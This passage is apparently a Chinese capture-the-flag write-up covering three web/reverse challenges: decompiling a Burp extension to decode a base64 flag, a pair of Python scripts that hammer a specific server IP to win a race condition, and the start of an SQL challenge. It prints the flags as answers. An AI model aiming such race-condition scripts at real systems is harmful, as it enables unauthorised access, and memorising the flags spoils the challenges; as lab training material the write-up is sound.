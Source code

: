 <br/>

### 3.BurpSuiiiiiit!!!

> 出题人：Lamber
> 拿起你的burp，开始战斗吧
> 附件: 链接：https://share.weiyun.com/5WD42Vt 密码：zp5sy9
> 备用链接:http://geek.sycsec.com:44444/static/file/Burp.zip

附件下载：Burp.zip

下载得到一个jar文件，用jd-gui反编译后发现主要代码都在“BurpExtender.class”中，把变量a、b、c相关代码复制出来，执行输出后从a得到的d仍然是base64编码，再次解码得到flag
```
Syc{BurpExtender_Are_guns_F0r_Hack3rs}
```

<br/>

### 4.性感潇文清，在线算卦

> 出题人：Ayrain
> 动作快点才能算到好卦。
> 地址:http://148.70.59.198:42534/

查看源码发现提示“条件竞争”，创建两个python脚本
```python
import requests

# 脚本一
i=0
while 1:
    r = requests.get("http://148.70.59.198:42534/?u=1&p=2")
    print(i)
    i+=1

# 脚本二
while 1:
    r = requests.get("http://148.70.59.198:42534/?u=1&p=1")
    page = str(r.text).split("<")[0].strip(" ").replace("Ding!你的算卦结果就在这儿啦！快来看！","")
    r = requests.get("http://148.70.59.198:42534/"+page)
    if r.text != 'you are too slow':
        print(r.text)
        break
```
先运行“脚本一”占用服务器资源，再运行“脚本二”就可以得到flag
```
Syc{You-4re-S0-f4st}
```
<br/>

### 5.Easysql

> 出题人：cl4y
> 最近我做了一个小网站，我把flag放在里面了，不过我没有把登陆密码告诉任何人，所以你们是拿不到flag的！
> 地址:http://118.25.14.40:8100/

